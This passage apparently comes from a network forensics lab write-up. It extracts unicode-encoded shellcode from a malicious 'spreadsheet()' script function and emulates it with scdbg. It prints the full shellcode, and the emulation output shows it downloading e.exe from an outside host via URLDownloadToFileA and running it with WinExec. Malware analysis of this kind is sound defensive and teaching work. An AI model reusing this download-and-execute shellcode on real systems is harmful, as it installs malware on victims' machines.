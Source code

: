 
### Extracting the Shellcode on `spreadsheet()` function:

Here's the shellcode:

```c
%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u383D
```


Command 4:

```c
C:\Users\husky\Desktop\CCD_NetworkForensicsLabs\Windows>scdbg.exe /f spreadsheet-shellcode
```


Output:

![](/assets/img/Pasted image 20240809143335.png)


Functions found in the shellcode analysis:

```c
401086  GetTempPathA(len=88, buf=12fd80) = 22
4010b0  LoadLibraryA(urlmon.dll)
4010ca  URLDownloadToFileA(http://sploitme.com.cn/fg/load.php?e=8╘╘╘╘╘╘╘╘╘♂╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘D╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘╘P╘╘P╘╘╘P╘╘ö╘╘, C:\Users\husky\AppData\Local\Temp\e.exe)
4010d7  WinExec(C:\Users\husky\AppData\Local\Temp\e.exe)
4010e0  ExitThread(0)
```


DLL dependencies:

Command->

```c
scdbg.exe /dllmap com-shellcode
```

![](/assets/img/Pasted image 20240809144313.png)


List of DLLs:

```c
kernel32 Dll mapped at 7c800000 - 7c8f6000  Version: 5.1.2600.5781
ntdll    Dll mapped at 7c900000 - 7c9b2000  Version: 5.1.2600.5755
ws2_32   Dll mapped at 71ab0000 - 71ac7000  Version: 5.1.2600.5512
iphlpapi Dll mapped at 76d60000 - 76d79000  Version: 5.1.2600.5512
user32   Dll mapped at 7e410000 - 7e4a1000  Version: 5.1.2600.5512
shell32  Dll mapped at 7c9c0000 - 7d1d7000  Version: 6.0.2900.6018
msvcrt   Dll mapped at 77c10000 - 77c68000  Version: 7.0.2600.5512
urlmon   Dll mapped at 78130000 - 78258000  Version: 7.0.6000.17096
wininet  Dll mapped at 3d930000 - 3da01000  Version: 7.0.6000.17093
shlwapi  Dll mapped at 77f60000 - 77fd6000  Version: 6.0.2900.5912
advapi32 Dll mapped at 77dd0000 - 77e6b000  Version: 5.1.2600.5755
shdocvw  Dll mapped at 7e290000 - 7e401000  Version: 6.0.2900.5512
psapi    Dll mapped at 76bf0000 - 76bfb000  Version: 5.1.2600.5512
imagehlp Dll mapped at 76c90000 - 76cb9000  Version: 5.1.2600.6479
winhttp  Dll mapped at 4d4f0000 - 4d549000  Version: 5.1.2600.6175
```
